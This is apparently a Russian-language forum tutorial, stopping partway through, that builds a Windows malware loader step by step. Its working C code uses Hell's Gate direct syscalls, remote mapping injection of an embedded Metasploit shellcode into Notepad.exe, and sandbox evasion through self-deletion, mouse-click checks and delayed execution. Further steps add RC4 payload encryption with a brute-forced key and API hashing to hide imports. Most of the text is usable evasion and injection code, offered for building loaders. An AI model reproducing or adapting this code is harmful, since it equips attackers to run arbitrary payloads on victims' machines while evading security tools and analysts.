Для вычисления значений хешей системных вызовов и вывода их на консоль необходимо создать новый проект. Проект Hasher будет содержать один файл на C, который показан ниже.
Hasher.c
C:
#include <Windows.h>
#include <stdio.h>
#define STR "_JOAA"
#define INITIAL_SEED 8
UINT32 HashStringJenkinsOneAtATime32BitA(_In_ PCHAR String)
{
SIZE_T Index = 0;
UINT32 Hash = 0;
SIZE_T Length = lstrlenA(String);
while (Index != Length)
{
Hash += String[Index++];
Hash += Hash << INITIAL_SEED;
Hash ^= Hash >> 6;
}
Hash += Hash << 3;
Hash ^= Hash >> 11;
Hash += Hash << 15;
return Hash;
}
UINT32 HashStringJenkinsOneAtATime32BitW(_In_ PWCHAR String)
{
SIZE_T Index = 0;
UINT32 Hash = 0;
SIZE_T Length = lstrlenW(String);
while (Index != Length)
{
Hash += String[Index++];
Hash += Hash << INITIAL_SEED;
Hash ^= Hash >> 6;
}
Hash += Hash << 3;
Hash ^= Hash >> 11;
Hash += Hash << 15;
return Hash;
}
int main() {
printf("#define %s%s \t0x%0.8X \n", "NtCreateSection", STR, HashStringJenkinsOneAtATime32BitA("NtCreateSection"));
printf("#define %s%s \t0x%0.8X \n", "NtMapViewOfSection", STR, HashStringJenkinsOneAtATime32BitA("NtMapViewOfSection"));
printf("#define %s%s \t0x%0.8X \n", "NtUnmapViewOfSection", STR, HashStringJenkinsOneAtATime32BitA("NtUnmapViewOfSection"));
printf("#define %s%s \t0x%0.8X \n", "NtClose", STR, HashStringJenkinsOneAtATime32BitA("NtClose"));
printf("#define %s%s \t0x%0.8X \n", "NtCreateThreadEx", STR, HashStringJenkinsOneAtATime32BitA("NtCreateThreadEx"));
printf("#define %s%s \t0x%0.8X \n", "NtWaitForSingleObject", STR, HashStringJenkinsOneAtATime32BitA("NtWaitForSingleObject"));
return 0;
}Результаты Hasher
После компиляции и запуска программа сгенерирует следующие результаты, которые следует скопировать в файл Common.h.
Дополнительно, определение структуры новой структуры VX_TABLE должно быть обновлено, чтобы включить системные вызовы, которые будут использоваться.
C:
typedef struct _VX_TABLE {
VX_TABLE_ENTRY NtCreateSection;
VX_TABLE_ENTRY NtMapViewOfSection;
VX_TABLE_ENTRY NtUnmapViewOfSection;
VX_TABLE_ENTRY NtClose;
VX_TABLE_ENTRY NtCreateThreadEx;
VX_TABLE_ENTRY NtWaitForSingleObject;
} VX_TABLE, * PVX_TABLE;Внедрение Payload через Hell's Gate
После успешной настройки Hell's Gate можно приступить к внедрению Payload. Создается новый файл Inject.c, который представлен ниже.
Следующие пункты кратко объясняют файл Inject.c:
- InitializeSyscalls - Эта функция инициализирует глобальную переменную g_Sys типа VX_TABLE, которая будет использоваться позже.
- RemoteMappingInjectionViaSyscalls - Эта функция поддерживает как локальное, так и удаленное инъекцию через параметр bLocal, который устанавливается в TRUE для локальной инъекции и в FALSE для удаленной инъекции.
- Если параметр bLocal установлен в TRUE, переменная dwLocalFlag будет установлена в PAGE_EXECUTE_READWRITE, чтобы быть подходящей для локального выполнения Payload, и второй вызов NtMapViewOfSection будет избегаться. Но если bLocal установлен в FALSE, dwLocalFlag останется PAGE_READWRITE, и функция выполнит второй вызов NtMapViewOfSection для выделения памяти удаленно.
- Переменная pExecAddress используется для сохранения базового адреса внедренного Payload. Она равна базовому адресу локально внедренного Payload (pLocalAddress), если функция настроена на выполнение Payload локально, или базовому адресу удаленно внедренного Payload (pRemoteAddress), если функция настроена на выполнение Payload удаленно.
- Переменная pExecAddress затем передается в системный вызов NtCreateThreadEx для выполнения Payload в нужный момент времени.
C:
#include <Windows.h>
#include <stdio.h>
#include "Structs.h"
#include "Common.h"
// Глобальная структура VX_TABLE
VX_TABLE g_Sys = { 0 };
BOOL InitializeSyscalls() {
// Получить PEB
PTEB pCurrentTeb = RtlGetThreadEnvironmentBlock();
PPEB pCurrentPeb = pCurrentTeb->ProcessEnvironmentBlock;
if (!pCurrentPeb || !pCurrentTeb || pCurrentPeb->OSMajorVersion != 0xA)
return FALSE;
// Получить модуль NTDLL
PLDR_DATA_TABLE_ENTRY pLdrDataEntry = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pCurrentPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);
// Получить EAT NTDLL
PIMAGE_EXPORT_DIRECTORY pImageExportDirectory = NULL;
if (!GetImageExportDirectory(pLdrDataEntry->DllBase, &pImageExportDirectory) || pImageExportDirectory == NULL)
return FALSE;
g_Sys.NtCreateSection.uHash = NtCreateSection_JOAA;
g_Sys.NtMapViewOfSection.uHash = NtMapViewOfSection_JOAA;
g_Sys.NtUnmapViewOfSection.uHash = NtUnmapViewOfSection_JOAA;
g_Sys.NtClose.uHash = NtClose_JOAA;
g_Sys.NtCreateThreadEx.uHash = NtCreateThreadEx_JOAA;
g_Sys.NtWaitForSingleObject.uHash = NtWaitForSingleObject_JOAA;
// Инициализировать системные вызовы
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtCreateSection))
return FALSE;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtMapViewOfSection))
return FALSE;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtUnmapViewOfSection))
return FALSE;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtClose))
return FALSE;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtCreateThreadEx))
return FALSE;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtWaitForSingleObject))
return FALSE;
return TRUE;
}
BOOL RemoteMappingInjectionViaSyscalls(IN HANDLE hProcess, IN PVOID pPayload, IN SIZE_T sPayloadSize, IN BOOL bLocal) {
HANDLE hSection = NULL;
HANDLE hThread = NULL;
PVOID pLocalAddress = NULL,
pRemoteAddress = NULL,
pExecAddress = NULL;
NTSTATUS STATUS = NULL;
SIZE_T sViewSize = NULL;
LARGE_INTEGER MaximumSize = {
.HighPart = 0,
.LowPart = sPayloadSize
};
DWORD dwLocalFlag = PAGE_READWRITE;
//--------------------------------------------------------------------------
// Выделение локальной карты
HellsGate(g_Sys.NtCreateSection.wSystemCall);
if ((STATUS = HellDescent(&hSection, SECTION_ALL_ACCESS, NULL, &MaximumSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL)) != 0) {
printf("[!] NtCreateSection не удалось с ошибкой : 0x%0.8X \n", STATUS);
return FALSE;
}
if (bLocal) {
dwLocalFlag = PAGE_EXECUTE_READWRITE;
}
HellsGate(g_Sys.NtMapViewOfSection.wSystemCall);
if ((STATUS = HellDescent(hSection, (HANDLE)-1, &pLocalAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, dwLocalFlag)) != 0) {
printf("[!] NtMapViewOfSection [L] не удалось с ошибкой : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] Локальная память выделена по адресу: 0x%p размером : %d \n", pLocalAddress, sViewSize);
//--------------------------------------------------------------------------
// Запись Payload
printf("[#] Нажмите <Enter>, чтобы записать Payload ... ");
getchar();
memcpy(pLocalAddress, pPayload, sPayloadSize);
printf("\t[+] Payload скопирован с 0x%p по 0x%p \n", pPayload, pLocalAddress);
//--------------------------------------------------------------------------
// Выделение удаленной карты
if (!bLocal) {
HellsGate(g_Sys.NtMapViewOfSection.wSystemCall);
if ((STATUS = HellDescent(hSection, hProcess, &pRemoteAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_EXECUTE_READWRITE)) != 0) {
printf("[!] NtMapViewOfSection [R] не удалось с ошибкой : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] Удаленная память выделена по адресу: 0x%p размером : %d \n", pRemoteAddress, sViewSize);
}
//--------------------------------------------------------------------------
// Выполнение Payload через создание потока
pExecAddress = pRemoteAddress;
if (bLocal) {
pExecAddress = pLocalAddress;
}
printf("[#] Нажмите <Enter>, чтобы выполнить Payload ... ");
getchar();
printf("\t[i] Запуск потока с начальным адресом 0x%p ... ", pExecAddress);
HellsGate(g_Sys.NtCreateThreadEx.wSystemCall);
if ((STATUS = HellDescent(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pExecAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
printf("[!] NtCreateThreadEx не удалось с ошибкой : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] Готово \n");
printf("\t[+] Создан поток с идентификатором : %d \n", GetThreadId(hThread));
//--------------------------------------------------------------------------
// Ожидание завершения потока
HellsGate(g_Sys.NtWaitForSingleObject.wSystemCall);
if ((STATUS = HellDescent(hThread, FALSE, NULL)) != 0) {
printf("[!] NtWaitForSingleObject не удалось с ошибкой : 0x%0.8X \n", STATUS);
return FALSE;
}
// Отмена отображения локального вида
HellsGate(g_Sys.NtUnmapViewOfSection.wSystemCall);
if ((STATUS = HellDescent((HANDLE)-1, pLocalAddress)) != 0) {
printf("[!] NtUnmapViewOfSection не удалось с ошибкой : 0x%0.8X \n", STATUS);
return FALSE;
}
// Закрытие дескриптора раздела
HellsGate(g_Sys.NtClose.wSystemCall);
if ((STATUS = HellDescent(hSection)) != 0) {
printf("[!] NtClose не удалось с ошибкой : 0x%0.8X \n", STATUS);
return FALSE;
}
return TRUE;
}Перечисление процессов
Для создания полного модуля внедрения в процесс необходимо использовать системный вызов NtQuerySystemInformation для получения дескриптора целевого процесса, как описано в модуле Process Enumeration - NtQuerySystemInformation.
Использование нового системного вызова потребует обновления структуры VX_TABLE, чтобы включить еще один элемент, VX_TABLE_ENTRY.
NtQuerySystemInformation, который будет инициализирован функцией InitializeSyscalls. Кроме того, используйте программу Hasher для вычисления хеш-значения для строки "NtQuerySystemInformation".
C:
BOOL GetRemoteProcessHandle(IN LPCWSTR szProcName, IN DWORD* pdwPid, IN HANDLE* phProcess) {
ULONG uReturnLen1 = NULL,
uReturnLen2 = NULL;
PSYSTEM_PROCESS_INFORMATION SystemProcInfo = NULL;
PVOID pValueToFree = NULL;
NTSTATUS STATUS = NULL;
// Это неудача со статусом = STATUS_INFO_LENGTH_MISMATCH, но это нормально, потому что нам нужно узнать, сколько нужно выделить (uReturnLen1)
HellsGate(g_Sys.NtQuerySystemInformation.wSystemCall);
HellDescent(SystemProcessInformation, NULL, NULL, &uReturnLen1);
// Выделение достаточного буфера для возвращаемого массива структур SYSTEM_PROCESS_INFORMATION
SystemProcInfo = (PSYSTEM_PROCESS_INFORMATION)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, (SIZE_T)uReturnLen1);
if (SystemProcInfo == NULL) {
return FALSE;
}
// Поскольку мы будем изменять 'SystemProcInfo', мы сохраняем его начальное значение перед циклом while, чтобы позже освободить его
pValueToFree = SystemProcInfo;
// Вызов NtQuerySystemInformation с правильными аргументами, вывод будет сохранен в 'SystemProcInfo'
HellsGate(g_Sys.NtQuerySystemInformation.wSystemCall);
STATUS = HellDescent(SystemProcessInformation, SystemProcInfo, uReturnLen1, &uReturnLen2);
if (STATUS != 0x0) {
printf("[!] NtQuerySystemInformation не удалось с ошибкой : 0x%0.8X \n", STATUS);
return FALSE;
}
while (TRUE) {
// Проверка размера имени процесса
// Сравнение имени процесса с целью
if (SystemProcInfo->ImageName.Length && HASHW(SystemProcInfo->ImageName.Buffer) == HASHW(szProcName)) {
// Открытие дескриптора целевого процесса и сохранение его, затем выход
*pdwPid = (DWORD)SystemProcInfo->UniqueProcessId;
*phProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)SystemProcInfo->UniqueProcessId);
break;
}
// Если NextEntryOffset равен 0, мы достигли конца массива
if (!SystemProcInfo->NextEntryOffset)
break;
// Переход к следующему элементу в массиве
SystemProcInfo = (PSYSTEM_PROCESS_INFORMATION)((ULONG_PTR)SystemProcInfo + SystemProcInfo->NextEntryOffset);
}
// Освобождение памяти, используя начальный адрес
HeapFree(GetProcessHeap(), 0, pValueToFree);
// Проверка, получен ли дескриптор целевого процесса
if (*pdwPid == NULL || *phProcess == NULL)
return FALSE;
else
return TRUE;
}Основная функция
Для тестирования кода создайте main.c, который будет содержать точку входа загрузчика, а также обычную полезную нагрузку Msfvenom calc.
Объяснение что делается в основной функции:
Функция InitializeSyscalls - это первая вызываемая функция.
Все остальные функции зависят от нее для инициализации структуры системных вызовов.
Если TARGET_PROCESS определен, вызывается функция GetRemoteProcessHandle для получения дескриптора целевого процесса и передачи его вывода в RemoteMappingInjectionViaSyscalls. Если TARGET_PROCESS не определен, код непосредственно вызывает RemoteMappingInjectionViaSyscalls с псевдо-значением для дескриптора локального процесса (1), указывая внедрить полезную нагрузку локально.
C:
#include <Windows.h>#include <stdio.h>
#include "Structs.h"
#include "Common.h"// комментарий для внедрения в локальный процесс
//
#define TARGET_PROCESS L"Notepad.exe"// x64 calc metasploit
unsigned char Payload [] = {
0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x20, 0x2F, 0x69, 0x20, 0x2F,
0x74, 0x31, 0x20, 0x2F, 0x64, 0x65, 0x6C, 0x20, 0x22, 0x25, 0x50, 0x52,
0x4F, 0x47, 0x52, 0x41, 0x4D, 0x46, 0x49, 0x4C, 0x45, 0x25, 0x22, 0x00,
0x00
};
// Вторичный поток
DWORD WINAPI MainThread(LPVOID lpParam) {
UNREFERENCED_PARAMETER(lpParam);
printf("\n\n[~] Запущено \n");
// Инициализация системных вызовов
if (!InitializeSyscalls()) {
printf("[!] Не удалось инициализировать системные вызовы \n");
return FALSE;
}
// Получение дескриптора целевого процесса
HANDLE hProcess = NULL;
DWORD dwPid = NULL;
if (TARGET_PROCESS) {
if (!GetRemoteProcessHandle(TARGET_PROCESS, &dwPid, &hProcess)) {
printf("[!] Не удалось получить дескриптор целевого процесса \n");
return FALSE;
}
printf("[+] Дескриптор целевого процесса получен : %d \n", dwPid);
}
else {
hProcess = (HANDLE)1; // Псевдо-дескриптор для локальной инъекции
}
// Выполнение внедрения
if (!RemoteMappingInjectionViaSyscalls(hProcess, Payload, sizeof(Payload), !TARGET_PROCESS)) {
printf("[!] Внедрение Payload не удалось \n");
return FALSE;
}
printf("[+] Выполнено \n");
// Ожидание завершения
if (TARGET_PROCESS) {
WaitForSingleObject(hProcess, INFINITE);
}
return TRUE;
}
int main() {
HANDLE hThread = CreateThread(NULL, 0, MainThread, NULL, 0, NULL);
if (hThread == NULL) {
printf("[!] Не удалось создать поток \n");
return 1;
}
WaitForSingleObject(hThread, INFINITE);
CloseHandle(hThread);
return 0;
}Результаты:
Удаленная инъекция
Локальная инъекция
Функции антианализа
Для добавления функций антианализа создайте новый файл с именем AntiAnalysis.c. Этот файл будет содержать следующую функциональность:
- Функция самоудаления.
- Функция мониторинга щелчков мыши.
- Функция задержки выполнения с использованием NtDelayExecution.
C:
#include <Windows.h>
#include <stdio.h>
#include "Structs.h"
#include "Common.h"
// Глобальные переменные для хука
HHOOK g_hMouseHook = NULL;
DWORD g_dwMouseClicks = NULL;
// Callback-функция, которая будет выполняться при каждом клике мыши
LRESULT CALLBACK HookEvent(int nCode, WPARAM wParam, LPARAM lParam) {
if (wParam == WM_LBUTTONDOWN || wParam == WM_RBUTTONDOWN || wParam == WM_MBUTTONDOWN) {
printf("[+] Запись клика мыши\n");
g_dwMouseClicks++;
}
return CallNextHookEx(g_hMouseHook, nCode, wParam, lParam);
}
BOOL MouseClicksLogger() {
MSG Msg = { 0 };
// Установка хука
g_hMouseHook = SetWindowsHookExW(
WH_MOUSE_LL,
(HOOKPROC)HookEvent,
NULL,
NULL
);
if (!g_hMouseHook) {
printf("[!] SetWindowsHookExW не удалось с ошибкой: %d\n", GetLastError());
}
// Обработка необработанных событий
while (GetMessageW(&Msg, NULL, NULL, NULL)) {
DefWindowProcW(Msg.hwnd, Msg.message, Msg.wParam, Msg.lParam);
}
return TRUE;
}
BOOL DeleteSelf() {
WCHAR szPath[MAX_PATH * 2] = { 0 };
FILE_DISPOSITION_INFO Delete = { 0 };
HANDLE hFile = INVALID_HANDLE_VALUE;
PFILE_RENAME_INFO pRename = NULL;
const wchar_t* NewStream = (const wchar_t*)NEW_STREAM;
SIZE_T sRename = sizeof(FILE_RENAME_INFO) + sizeof(NewStream);
// Выделение достаточного буфера для структуры 'FILE_RENAME_INFO'
pRename = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sRename);
if (!pRename) {
printf("[!] HeapAlloc не удалось с ошибкой: %d\n", GetLastError());
return FALSE;
}
// Очистка структур
ZeroMemory(szPath, sizeof(szPath));
ZeroMemory(&Delete, sizeof(FILE_DISPOSITION_INFO));
// Маркировка файла для удаления (используется во втором вызове SetFileInformationByHandle)
Delete.DeleteFile = TRUE;
// Установка имени нового потока данных и его размера в структуре 'FILE_RENAME_INFO'
pRename->FileNameLength = sizeof(NewStream);
RtlCopyMemory(pRename->FileName, NewStream, sizeof(NewStream));
// Получение имени текущего файла
if (GetModuleFileNameW(NULL, szPath, MAX_PATH * 2) == 0) {
printf("[!] GetModuleFileNameW не удалось с ошибкой: %d\n", GetLastError());
return FALSE;
}
// Открытие дескриптора текущего файла
hFile = CreateFileW(szPath, DELETE | SYNCHRONIZE, FILE_SHARE_READ, NULL, OPEN_EXISTING, NULL, NULL);
if (hFile == INVALID_HANDLE_VALUE) {
printf("[!] CreateFileW [R] не удалось с ошибкой: %d\n", GetLastError());
return FALSE;
}
wprintf(L"[i] Переименование :$DATA в %s ...", NEW_STREAM);
// Переименование потока данных
if (!SetFileInformationByHandle(hFile, FileRenameInfo, pRename, sRename)) {
printf("[!] SetFileInformationByHandle [R] не удалось с ошибкой: %d\n", GetLastError());
return FALSE;
}
wprintf(L"[+] ГОТОВО\n");
CloseHandle(hFile);
// Открытие нового дескриптора текущего файла
hFile = CreateFileW(szPath, DELETE | SYNCHRONIZE, FILE_SHARE_READ, NULL, OPEN_EXISTING, NULL, NULL);
if (hFile == INVALID_HANDLE_VALUE && GetLastError() == ERROR_FILE_NOT_FOUND) {
// Если файл уже удален
return TRUE;
}
if (hFile == INVALID_HANDLE_VALUE) {
printf("[!] CreateFileW [D] не удалось с ошибкой: %d\n", GetLastError());
return FALSE;
}
wprintf(L"[i] УДАЛЕНИЕ ...");
// Маркировка для удаления после закрытия дескриптора файла
if (!SetFileInformationByHandle(hFile, FileDispositionInfo, &Delete, sizeof(Delete))) {
printf("[!] SetFileInformationByHandle [D] не удалось с ошибкой: %d\n", GetLastError());
return FALSE;
}
wprintf(L"[+] ГОТОВО\n");
CloseHandle(hFile);
// Освобождение выделенного буфера
HeapFree(GetProcessHeap(), 0, pRename);
return TRUE;
}
typedef NTSTATUS(NTAPI* fnNtDelayExecution)(
BOOLEAN Alertable,
PLARGE_INTEGER DelayInterval
);
BOOL DelayExecutionVia_NtDE(FLOAT ftMinutes) {
// Преобразование минут в миллисекунды
DWORD dwMilliSeconds = ftMinutes * 60000;
LARGE_INTEGER DelayInterval = { 0 };
LONGLONG Delay = NULL;
NTSTATUS STATUS = NULL;
fnNtDelayExecution pNtDelayExecution = (fnNtDelayExecution)GetProcAddress(GetModuleHandle(L"NTDLL.DLL"), "NtDelayExecution");
DWORD _T0 = NULL;
DWORD _T1 = NULL;
printf("[i] Задержка выполнения с использованием \"NtDelayExecution\" на %0.3d секунд", (dwMilliSeconds / 1000));
// Преобразование из миллисекунд в 100-наносекундные интервалы времени (отрицательные)
Delay = dwMilliSeconds * 10000;
DelayInterval.QuadPart = -Delay;
_T0 = GetTickCount64();
// Пауза на 'dwMilliSeconds' мс
if ((STATUS = pNtDelayExecution(FALSE, &DelayInterval)) != 0x00 && STATUS != STATUS_TIMEOUT) {
printf("[!] NtDelayExecution не удалось с ошибкой: 0x%0.8X\n", STATUS);
return FALSE;
}
_T1 = GetTickCount64();
// Если прошло по крайней мере 'dwMilliSeconds' мс, то 'DelayExecutionVia_NtDE' успешно, в противном случае неудача
if ((DWORD)(_T1 - _T0) < dwMilliSeconds)
return FALSE;
printf("\n\t>> _T1 - _T0 = %d\n", (DWORD)(_T1 - _T0));
printf("[+] ГОТОВО\n");
return TRUE;
}Функция AntiAnalysis
C:
// using the 'extern' keyword, because this variable is already defined in the 'Inject.c' file
extern VX_TABLE g_Sys;
//...
BOOL AntiAnalysis(DWORD dwMilliSeconds) {
HANDLE hThread = NULL;
NTSTATUS STATUS = NULL;
LARGE_INTEGER DelayInterval = { 0 };
FLOAT i = 1;
LONGLONG Delay = NULL;
Delay = dwMilliSeconds * 10000;
DelayInterval.QuadPart = -Delay;
// Self-deletion
if (!DeleteSelf()) {
// we dont care for the result - but you can change this if you want
}
// Try 10 times, after that return FALSE
while (i <= 10) {
printf("[#] Monitoring Mouse-Clicks For %d Seconds - Need 6 Clicks To Pass\n", (dwMilliSeconds / 1000));
// Creating a thread that runs 'MouseClicksLogger' function
HellsGate(g_Sys.NtCreateThreadEx.wSystemCall);
if ((STATUS = HellDescent(&hThread, THREAD_ALL_ACCESS, NULL, (HANDLE)-1, MouseClicksLogger, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
// Waiting for the thread for 'dwMilliSeconds'
HellsGate(g_Sys.NtWaitForSingleObject.wSystemCall);
if ((STATUS = HellDescent(hThread, FALSE, &DelayInterval)) != 0 && STATUS != STATUS_TIMEOUT) {
printf("[!] NtWaitForSingleObject Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
HellsGate(g_Sys.NtClose.wSystemCall);
if ((STATUS = HellDescent(hThread)) != 0) {
printf("[!] NtClose Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
// Unhooking
if (g_hMouseHook && !UnhookWindowsHookEx(g_hMouseHook)) {
printf("[!] UnhookWindowsHookEx Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Delaying execution for specific amount of time
if (!DelayExecutionVia_NtDE((FLOAT)(i / 2)))
return FALSE;
// If the user clicked more than 5 times, we return true
if (g_dwMouseClicks > 5)
return TRUE;
// If not, we reset the mouse-clicks variable, and monitor the mouse-clicks again
g_dwMouseClicks = NULL;
// Increment 'i', so that next time 'DelayExecutionVia_NtDE' will wait longer
i++;
}
return FALSE;
}Кратко о функции AntiAnalysis:
1. Она принимает dwMilliSeconds в качестве входного параметра, который представляет собой количество времени для мониторинга кликов мыши.
2. Эта функция начинает с вызова DeleteSelf для удаления файла с диска.
3. Затем запускается цикл while, который запускает MouseClicksLogger через новый поток и ждет его в течение времени, указанного в dwMilliSeconds.
4. После истечения времени потока хуки удаляются, и выполнение программы задерживается на половину значения переменной i, где i представляет собой значение для задержки выполнения в минутах.
5. Затем функция проверяет общее количество кликов мыши перед задержкой. Если их меньше 5, то глобальная переменная монитора кликов мыши, g_dwMouseClicks, сбрасывается, чтобы следующий цикл начал тестирование кликов мыши сначала.
6. Увеличение переменной i заставляет последующую функцию DelayExecutionVia_NtDE ждать дольше, создавая способ задержки выполнения в песочнице.
common.h
Код:
// Название нового потока данных
#define NEW_STREAM L":RuSfera"
BOOL AntiAnalysis(DWORD dwMilliSeconds);Main.c:
C:
if (!AntiAnalysis(20000)) {
printf("[!] Обнаружена виртуальная среда\n");
}Здесь 20000 представляет собой время мониторинга кликов мыши в миллисекундах.
NtDelayExecution через Hell's Gate
Hell's Gate можно использовать для вызова NtDelayExecution, что требует обновления определения структуры VX_TABLE, расположенной в Common.h, и функции InitializeSyscalls для добавления элемента VX_TABLE_ENTRY NtDelayExecution и его инициализации. Программе Hasher также потребуется использование для вычисления хеша для системного вызова, как это было сделано в предыдущих шагах.
Результаты анти-анализа
На следующем изображении показан результат выполнения функции AntiAnalysis во время выполнения.
Шифрование полезной нагрузки
Для шифрования полезной нагрузки будет использован файл HellShell.exe. Команда, которая будет использоваться, - это .\HellShell.exe calc.bin rc4, где calc.bin - это файл с необработанной полезной нагрузкой. Зашифрованная полезная нагрузка заменит предыдущую нешифрованную полезную нагрузку в файле main.c.
Кроме того, функция Rc4EncryptionViSystemFunc032, которая отвечает за расшифровку, будет сохранена в файле Inject.c.
Взлом методом перебора
HellShell.exe генерирует следующий ключ.
unsigned char Rc4Key[] = { 0x61, 0x1A, 0xA0, 0xAA, 0xA7, 0x92, 0x9F, 0xBA, 0x8F, 0xCE, 0x4C, 0xD8, 0x11, 0xFA, 0xED, 0xB9 };
Ключ будет зашифрован, а затем расшифрован с использованием метода перебора. Сначала ключ нужно зашифровать. Это будет сделано с помощью нового проекта.
Этот новый проект предоставлен в коде данного модуля и называется KeyGuard2.
Функция Rc4EncryptionViSystemFunc032 будет обновлена, чтобы включить логику метода перебора. Эта функция будет вызываться из RemoteMappingInjectionViaSyscalls.
C:
BOOL Rc4EncryptionViSystemFunc032(IN PBYTE pRc4Key, IN PBYTE pPayloadData, IN DWORD dwRc4KeySize, IN DWORD sPayloadSize) {
// Результат SystemFunction032
NTSTATUS STATUS = NULL;
BYTE RealKey[KEY_SIZE] = { 0 };
int b = 0;
// Перебор ключа:
while (1) {
// Используя намек байта, если это равно, то мы нашли значение 'b', необходимое для расшифровки ключа
if (((pRc4Key[0] ^ b) - 0) == HINT_BYTE)
break;
// В противном случае увеличиваем 'b' и пытаемся снова
else
b++;
}
printf("[i] Рассчитанное значение 'b' : 0x%0.2X \n", b);
// Расшифровка ключа
for (int i = 0; i < KEY_SIZE; i++) {
RealKey[i] = (BYTE)((pRc4Key[i] ^ b) - i);
}
// Создание 2 переменных типа USTRING, одна передается в качестве ключа, а другая - в качестве блока данных для шифрования/расшифровки
USTRING Key = { .Buffer = RealKey, .Length = dwRc4KeySize, .MaximumLength = dwRc4KeySize },
Img = { .Buffer = pPayloadData, .Length = sPayloadSize, .MaximumLength = sPayloadSize };
// Поскольку функция SystemFunction032 экспортируется из Advapi32.dll, мы загружаем ее в процесс с помощью Advapi32,
// И используем ее возвращаемое значение в качестве параметра hModule в GetProcAddress
fnSystemFunction032 SystemFunction032 = (fnSystemFunction032)GetProcAddress(LoadLibraryA("Advapi32"), "SystemFunction032");
// Если вызовы SystemFunction032 завершаются неудачно, они вернут ненулевое значение
if ((STATUS = SystemFunction032(&Img, &Key)) != 0x0) {
printf("[!] ОШИБКА SystemFunction032 : 0x%0.8X\n", STATUS);
return FALSE;
}
return TRUE;
}
}Результаты взлома методом перебора
Выполнение полезной нагрузки (функции анти-анализа отключены).
Хэширование API
До сих пор все использованные WinAPI вызывались напрямую, что означает, что их можно найти в IAT реализации. Чтобы решить эту проблему, создается новый файл, ApiHashing.c, который содержит необходимые функции для реализации хэширования API.
ApiHashing.c
C:
#include <Windows.h>
#include "Structs.h"
#include "Common.h"
FARPROC GetProcAddressH(HMODULE hModule, DWORD dwApiNameHash) {
if (hModule == NULL || dwApiNameHash == NULL)
return NULL;
PBYTE pBase = (PBYTE)hModule;
PIMAGE_DOS_HEADER pImgDosHdr = (PIMAGE_DOS_HEADER)pBase;
